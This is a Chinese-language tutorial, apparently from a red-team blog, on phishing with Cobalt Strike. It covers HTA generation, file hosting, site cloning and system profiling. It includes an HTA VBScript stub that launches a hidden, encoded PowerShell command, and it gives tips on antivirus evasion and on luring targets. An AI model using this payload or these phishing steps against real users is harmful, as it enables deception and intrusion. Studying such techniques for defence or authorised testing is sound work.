







# 0x00 简介
HTA是HTML Application的缩写（HTML应用程序），是软件开发的新概念，直接将HTML保存成HTA的格式，就是一个独立的应用软件

# 0x01 HTML Application生成

>生成方式 Attack>Packages>HTML Application

这里他给我们提供了3种生成方式 exe,powershell,vba。其中VBA方法需要目标系统上的Microsoft Office，在系统支持的情况下我们一般选择powershell，因为这种方式更加容易免杀。通常我们结合host File(文件下载功能) 来实行钓鱼。

这里我们选择 powershell 生成 一个HTA

```
<script language="VBScript">
	Function var_func()
		Dim var_shell
		Set var_shell = CreateObject("Wscript.Shell")
		var_shell.run "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZ", 0, true
	End Function

	var_func
	self.close
</script>
```
可以看到其实就是一个 powershell命令 所以我们免杀做起来想多简单一点。


# 0x02 HTML Application利用

* ## Host file

这里我们利用CS的 host file功能 来联动一下


生成后的连接 发给目标打开（怎么让目标打开也是一门艺术）  注意的是这里生成后你改了本地的evil.hta文件他不会自动更新 需要点击Attack>Web Drive-by>Manage 把这个服务kill掉然后从新生成。


目标点击后上线， 这里我就不演示其他2种了基本用不到。


* ## Clone site

CS还是非常贴心的给我们准备一个功能 网站克隆 ，在我们了解到内网其他网站时还是非常有用的。
>使用  Attack>Web Drive-by>Clone Site


我这里就直接克隆个百度，然后attack 点击就可以加载 我们刚刚在host file里面的文件 很方便。



目标用户显示

# 0x04 System Profiler 信息收集
讲到钓鱼 不得不讲下System Profiler这个功能 他能收集一下用户的信息然后重定向，这个有利于我们判断目标环境然后，准备我们的payload，当然也可以自己写JavaScript。

>使用 Attack>Web Drive-by >System Profiler 



然后 发送给目标 然后我们在菜单栏 View>Applications 可以看到我们成功获取的各种信息


# 0x05 文末

在内网中钓鱼有时候是很有效的，但是也是很容易暴露的一种，钓鱼最好测试好各种payload，这东西发出去就没后悔药了，当然有0day就更好了（用时2小时）

### 本文如有错误，请及时提醒，以免误导他人

